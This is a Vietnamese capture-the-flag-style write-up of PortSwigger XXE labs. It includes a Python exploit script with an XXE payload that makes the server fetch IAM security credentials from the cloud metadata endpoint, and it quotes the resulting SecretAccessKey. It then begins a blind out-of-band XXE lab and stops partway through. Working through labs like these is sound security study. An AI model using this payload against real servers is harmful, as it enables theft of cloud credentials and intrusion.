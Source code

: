 Liệt kê danh sách file trong folder latest:

 [image](https://hackmd.io/_uploads/HyFflHeha.png)

và tương tự như vậy mình liệt kê được data trong folder admin

 [image](https://hackmd.io/_uploads/rJ8BeHg36.png)

- mình Thu được `SecretAccessKey=a5EHw4Hn9UYoUQS7MxcjHwDGb1vMHEi3bSo8CZv4`, bài lab hoàn thành:

 [image](https://hackmd.io/_uploads/HJ4AgBx3a.png)

mình đã viết lại script khai thác

```python
# /usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a49003a03e275c7874b092c00c900cc.web-security-academy.net'

session=requests.Session()

data = '<?xml version="1.0" encoding="UTF-8"?>< DOCTYPE foo [ < ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;#1</productId><storeId>1</storeId></stockCheck>'


response= session.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

print(response.text)
```

 [image](https://hackmd.io/_uploads/H1qX-Hxha.png)

## 3. Lab: Blind XXE with out-of-band interaction

link: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

### Đề bài

 [image](https://hackmd.io/_uploads/B1fJNBlhT.png)

### Phân tích

- Chức năng "Check stock" của trang web phân tích cú pháp dữ liệu XML nhưng không trả về bất kỳ kết quả nào trong giao diện. Để hoàn thành bài lab, chúng ta cần thực hiện một kịch bản DNS lookup tới client Burp Collaborator.
- Định nghĩa một entity với nội dung bất kỳ, nhận thấy giao diện không trả về giá trị entity:
